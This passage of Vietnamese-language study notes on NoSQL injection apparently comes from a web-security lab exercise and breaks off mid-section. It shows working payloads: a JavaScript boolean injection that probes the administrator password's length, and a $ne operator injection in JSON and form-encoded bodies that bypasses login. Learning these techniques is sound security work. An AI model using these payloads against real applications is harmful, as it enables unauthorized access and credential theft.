 ![Untitled](NoSQL%20injection%20aba554fd712a4b99ab64cb22e001ea2b/Untitled%201.png)

Việc này cho thấy rằng bên back end ⇒  có compiler operator mình truyền vào ! 

## **How to exploit ?**

- **Syntax injection**
    1. Extract value dựa vào `boolean` 
    
    ```jsx
    ' || this.username = 'administrator' && /^8/.test(this.password.length) || 'a' == 'b
    ```
    
    nếu độ dài một khẩu của user administrator = 8 ⇒  thì truy vấn trả về true , và nó sẽ lấy bản ghi đầu tiên 
    
    ```jsx
    Content-Type: application/json
    {
    	"username":{
    		"$ne":"invalid"
    	},
    	"password":{
    		"peter"
    		}
    }
    Hoặc
    Content-Type: application/x-www-form-urlencoded
    username[$ne]=invalid&&password=peter
    ```
    
    2 . Extract các file của object 
    
    Cách mà kiểm tra xem 1 key của 1 object có tồn tại không  ? 
    